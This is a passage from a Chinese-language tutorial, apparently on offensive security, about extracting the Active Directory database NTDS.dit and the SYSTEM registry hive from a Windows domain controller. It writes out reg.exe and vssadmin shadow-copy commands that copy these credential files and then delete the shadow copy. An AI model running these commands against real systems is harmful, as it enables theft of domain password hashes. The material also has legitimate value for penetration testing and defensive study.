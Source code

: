 ![](assets/1710388326-c41a20a62c0f084b17036029da468884.png)

SYSTEM 注册表 hive 也应该被复制因为其包含了解密 NTDS 文件内容所需的密钥。

```bash
reg.exe save hklm\system c:\ntds\system.bak
```

**c、vssadmin**

vssadmin 即卷影复制服务 Volume Shadow Copy Service 是微软 Windows 的一项组件服务从 Windows XP 开始支持。管理员可以使用卷影复制服务备份计算机卷以及文件即使操作系统正在使用这些资源。

**1\. 备份方法**

```bash
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[ID]\windows\ntds\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[ID]\windows\system32\config\SYSTEM
vssadmin delete shadows /shadow=[GUID]
```

其中的 HarddiskVolumeShadowCopy \[ID\] 中的 \[ID\] 和 \[GUID\] 均为动态生成需要根据回显结果输入。如下图

![](assets/1710388326-5fc333529ec72c660aae1b97cc87b64b.png)
